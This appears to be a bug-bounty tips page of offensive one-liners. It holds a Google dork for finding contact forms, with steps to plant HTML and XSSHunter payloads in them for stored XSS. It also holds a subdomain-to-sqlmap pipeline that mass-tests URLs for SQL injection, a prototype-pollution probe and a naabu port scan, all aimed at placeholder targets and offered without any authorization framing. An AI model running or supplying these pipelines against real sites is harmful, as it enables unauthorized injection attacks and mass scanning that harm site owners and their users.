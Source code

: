 # Tips 

------
### Easy Stored XSS & HTML Injection 

* Payload
```
site:target.com inurl:"contact" | inurl:"contact-us" | inurl:"contactus" | inurl:"contcat_us" | inurl:"contact_form" | inurl:"contact-form" 

```
* Fill the form with an HTML Payload in the First Name and with your XSSHunter Payload in Message and send the form

* Wait for a message in your mail with executed Html Payload or your XSSHunter alert for Stored XSS 

----


#### SQLi 

```
httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```
-----

#### ProtoType Pollution
```
subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"
```
------

#### Naabu
```
naabu -l /disk/output/example.com/host.txt  -tp 1000 -sa | httpx -retries 4 -timeout 10 -title -ip

```

